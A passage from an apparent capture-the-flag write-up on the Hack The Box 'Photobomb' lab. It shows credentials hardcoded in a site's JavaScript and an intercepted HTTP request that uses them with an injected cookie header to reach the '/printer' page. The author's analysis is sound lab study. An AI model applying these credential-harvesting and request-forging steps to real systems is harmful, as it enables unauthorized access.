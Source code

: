 Next, we inspect the page’s sources. We find a javascript file at ```photobomb.htb/photobomb.js```. This contains the following interesting code:

{% highlight javascript %}
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
{% endhighlight %}

It would appear that when a user presents a certain cookie, the login form will prepopulate with credentials. Very secure…

### Admin Portal

We see that for this prepopulation to occur, a regular expression must be satisfied:

```
<p>/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)</p>
```

Putting this into [a regular expression to normal language converter](https://regexr.com/), we observe that we can essentially put anything at the start, include the string ```isPhotoBombTechSupport = ```, and then anything else.

Using the Burp Suite proxy, we can intercept the HTTP request sent when navigating to ```photobomb.htb/printer```, inject a cookie with the header ```isPhotoBombTechSupport```, and send this off to the server.

The intercepted HTTP request, with the injected cookie, looks as follows:

```
GET /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/
Upgrade-Insecure-Requests: 1

isPhotoBombTechSupport = true
```

This is forwarded to the web server, and our cookie injection was successful. We have been forwarded to the ```photobomb.htb/printer``` page. The below two images show the top and bottom of this webpage, respectively.
